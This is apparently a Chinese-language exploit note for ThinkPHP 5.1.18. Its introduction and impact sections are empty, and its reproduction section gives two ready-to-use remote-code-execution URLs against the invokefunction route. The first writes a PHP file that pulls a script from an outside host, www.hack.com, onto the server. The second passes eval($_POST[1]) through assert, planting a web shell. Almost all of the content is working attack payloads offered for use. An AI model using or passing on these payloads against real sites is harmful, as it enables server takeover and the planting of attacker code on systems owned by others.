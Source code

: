 ```yaml
---
title: "Thinkphp 5.1.18"
id: zhfly3157
---
```


# Thinkphp 5.1.18

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、常规poc

```
http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?> 
```

### 2、所有目录都无写入权限,base64函数被拦截

```
 http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]) 
```